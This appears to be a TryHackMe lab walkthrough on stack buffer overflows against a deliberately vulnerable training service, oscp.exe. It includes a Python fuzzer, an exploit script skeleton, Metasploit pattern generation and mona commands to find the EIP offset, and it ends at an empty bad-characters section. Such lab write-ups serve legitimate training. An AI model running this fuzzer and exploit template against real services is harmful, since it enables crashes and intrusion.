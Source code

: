 # Buffer Overflow Prep
* Win7 VM with Immunity Debugger and PuTTY installed.
* Login over RDP using xfreerdp.
```
xfreerdp /u:admin /p:password /cert:ignore /v:TARGET_IP /workarea
```
* Choose "Home" option if Windows prompts for network location.
* [Exploiting buffer overflows cheat sheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
## "oscp.exe" Overflow
* Right-click "Immunity Debugger" > "Run as administrator".
  
![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/7397a66c-46cc-4cc5-8446-223595d3fb85)

* "File" > "Open" > navigate to "vulnerable-apps" folder > "oscp" folder > "oscp.exe" > "Open".
* "Debug" > "Run".
* oscp.exe binary runs in terminal window.
  
![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/ea00975e-21b2-4bea-915c-f1631601fed0)
* Connect to port 1337 using netcat on attack host.
```
nc TARGET_IP 1337
Welcome to OSCP Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
OVERFLOW1 [value]
OVERFLOW2 [value]
OVERFLOW3 [value]
OVERFLOW4 [value]
OVERFLOW5 [value]
OVERFLOW6 [value]
OVERFLOW7 [value]
OVERFLOW8 [value]
OVERFLOW9 [value]
OVERFLOW10 [value]
EXIT
```
* Choose "OVERFLOW 1 test".
```
OVERFLOW1 test
OVERFLOW1 COMPLETE
```
* Terminate netcat connection.
### Mona Configuration
* Configure Mona working folder.
* Run command in input box at bottom of Immunity Debugger window.
```
!mona config -set workingfolder c:\mona\%p
```

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/7fc8e531-7e2a-4cac-9cc7-7d455c5306f5)
### Fuzzing
* Create "fuzzer.py" file on attack host.
```
#!/usr/bin/env python3

import socket, time, sys

ip = "TARGET_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
* Run script using pthon.
```
python3 fuzzer.py
```
* Script sends increasingly long strings comprised of As.
* Fuzzer exits with error message if it crashes target host with one of the strings.
* Note largest number of bytes that were sent.
  * Fuzzing with 1900 bytes succeeded.
  * Fuzzing crashed at 2000 bytes.

### Crash Replication and Controlling EIP
* Create "exploit.py" file on attack host.
```
import socket

ip = "TARGET_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
* Generate cyclic pattern of length 400 bytes longer than string that crashed the server.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
  * `-l` value specifes number of bytes.
* Place output into "payload "variable of "exploit.py" script.
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/6e9f3fb9-ac68-4da9-a0a7-51b8b8ae024b)

* Run modified "exploit.py" script on attack host.
```
python3 exploit.py
Sending evil buffer...
Done!
```
* Script crashes oscp server.
* Run mona command in Immunity Debugger command input box.
```
!mona findmsp -distance 2400
```
  * `-distance` is length of cyclic pattern.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/0d739081-4f54-4c4e-a326-f9ad77a6689d)

* Output displays EIP offset.
```
EIP contains normal pattern : ... 0x6f43396e (offset 1978)
```
* Update "exploit.py" script.
  * Set "offset" variable to 1978.
  * Set "payload" variable to empty string.
  * Set "retn" variable to "BBBB".
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.
* Run modified "exploit.py" script.
* EIP register now overwrittedn with the 4 Bs - hex 42424242.

### Finding Bad Characters
* 
